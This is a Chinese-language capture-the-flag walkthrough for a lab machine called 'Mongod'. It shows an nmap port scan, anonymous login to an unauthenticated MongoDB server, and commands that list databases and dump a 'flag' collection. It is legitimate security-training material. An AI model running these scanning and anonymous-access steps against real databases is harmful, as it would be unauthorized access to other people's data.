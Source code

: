 # Mongod

## 前言

从Mongod的名字可以知道今日靶机和数据库有关。具体是什么数据库呢？没错就是 MongoDB 数据库，这是一个面向文档（document）的 [No SQL](https://www.runoob.com/mongodb/nosql.html) 数据库。稍后我们会再提及。

> 靶机上运行着一个 MongoDB 数据库，并且存在未授权访问漏洞，允许用户在未拥有凭证信息的情况下登录数据库。

接下来开始正式的渗透过程。

## 渗透

首先，我们扫描一下靶机开放的端口、服务等。祭出我们的 Nmap 神器，本次实验主要用到以下几个选项：

```bash
-p- ：扫描 0-65535 间的 TCP 端口
-sV ：扫描特定端口上运行着的服务的版本信息
--min-rate ：指明 Nmap 每秒应发送的最小数据包数，包数越大，扫描速度越快
```

使用以下命令扫描目标：

```bash
sudo nmap -p- --min-rate=1000 -sV {target_ip}
```

可以发现靶机上运行着 `MongoDB` 服务，下面简单说说 MongoDB。

![1](image-20230415192524848.png)

### MongoDB 简介

前文提到，MongoDB 是一个面向文档的非关系型数据库。MongoDB 不像传统的使用表和行的关系型数据库，其使用集合 （collection）以及文档（document）。

MongoDB 数据库由多个集合 Collection 组成，每个集合又可包含多个文档 Document：

![1.png](image-20230415191225105.png)

而每个文档又由一个个的键值对组成，**键值对是 MongoDB 数据库数据的基本单元**。

### 连接 MongoDB 数据库服务器

- 为连接到远程的 MongoDB 服务器，我们需要安装 `mongodb` 工具。

在基于 Debian 的 linux 发行版系统，可以使用以下命令安装 `mongodb`：

1. 利用 curl 下载压缩包

```bash
curl -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz
```

2. 利用 tar 解压

```bash
tar xvf mongodb-linux-x86_64-3.4.7.tgz
```

3. 进入 mongodb 的 bin 目录

```bash
cd mongodb-linux-x86_64-3.4.7/bin
```

4. 执行 mongo ，匿名连接 MongoDB 服务器

```bash
./mongo mongodb://{target_IP}:27017
```

如下图，成功连接到 MongoDB 服务器：

### mongodb 工具使用

使用如下命令列出 MongoDB 中的**所有数据库**：

```bash
show dbs;
```

之后可以使用 `use` 命令选择某个数据库，并查询该数据库里的信息：

```bash
use sensitive_information;
```

用 `show` 命令列出上述数据库下的所有集合：

```
show collections;
```

发现有一个名为 `flag` 的集合，我们可以使用如下命令输出该集合中的内容：

```bash
db.flag.find().pretty();
db.flag.find() 也可以，加上 pretty() 更美观
```

![image-20230415193113792](image-20230415193113792.png)

如上图，成功获取 flag。

